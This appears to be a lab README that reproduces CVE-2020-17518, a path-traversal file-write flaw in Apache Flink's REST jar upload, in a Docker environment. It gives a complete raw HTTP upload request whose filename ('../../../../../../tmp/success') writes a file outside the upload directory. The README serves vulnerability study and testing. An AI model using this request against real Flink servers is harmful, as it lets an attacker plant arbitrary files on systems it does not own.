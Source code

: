 # Apache Flink Upload Path Traversal (CVE-2020-17518)

[中文版本(Chinese version)](README.zh-cn.md)

Apache Flink is an open source stream processing framework with powerful stream- and batch-processing capabilities.

A vulnerability in Apache Flink 1.5.1 and later versions allows attackers to write uploaded files to arbitrary locations on the local file system through a maliciously crafted HTTP header in the REST API request. This issue is fixed in Apache Flink 1.11.3.

References:

- <https://github.com/apache/flink/commit/a5264a6f41524afe8ceadf1d8ddc8c80f323ebc4>
- <https://nvd.nist.gov/vuln/detail/CVE-2020-17518>

## Environment Setup

Execute the following command to start an Apache Flink jobmanager 1.11.2:

```
docker compose up -d
```

After the Apache Flink service is started, visit `http://your-ip:8081` to access the management interface.

## Vulnerability Reproduction

Send the following HTTP request to upload a file to `/tmp/success` on the target server:

```
POST /jars/upload HTTP/1.1
Host: localhost:8081
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryoZ8meKnrrso89R6Y
Content-Length: 187

------WebKitFormBoundaryoZ8meKnrrso89R6Y
Content-Disposition: form-data; name="jarfile"; filename="../../../../../../tmp/success"

success
------WebKitFormBoundaryoZ8meKnrrso89R6Y--
```

After the file is uploaded, you can check the `/tmp/success` file on the target server:

![](1.png)
